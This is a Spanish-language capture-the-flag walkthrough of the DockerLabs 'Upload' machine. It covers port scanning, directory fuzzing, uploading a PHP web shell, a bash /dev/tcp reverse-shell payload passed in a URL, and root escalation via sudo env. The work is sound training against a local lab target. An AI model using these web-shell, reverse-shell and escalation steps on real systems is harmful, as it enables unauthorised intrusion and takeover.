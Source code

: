 # [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/50b99ded-2fda-421a-aa36-022f3ee61bbf)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e1845ad2-b086-49ea-97c4-8c59c27221e2)

<br>

Lo que debemos hacer ahora es ver si existe el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/bef54253-3e1a-4c14-8ad5-78ed616d8169)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/e3bb76bd-783b-4aee-ae92-0d3e57220036)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/3362fa1e-967c-40b9-9158-1dcf97456867)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/9617187a-0a47-4504-a647-45f4bb053150)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/12059ea4-596f-44ce-a2e9-f9925a576091)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/de8139bf-761a-4e44-9793-702d6adc7725)

<br>
<br>

## Escala de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/8cff1944-b7af-49b1-bab7-a72271f84825)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/07208f3b-6bda-4f5e-a1b5-a1d02b3fe87c)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/89e33e11-4355-4083-aecd-b20aa85bd135)
<br>

Y listo ya seríamos root!!
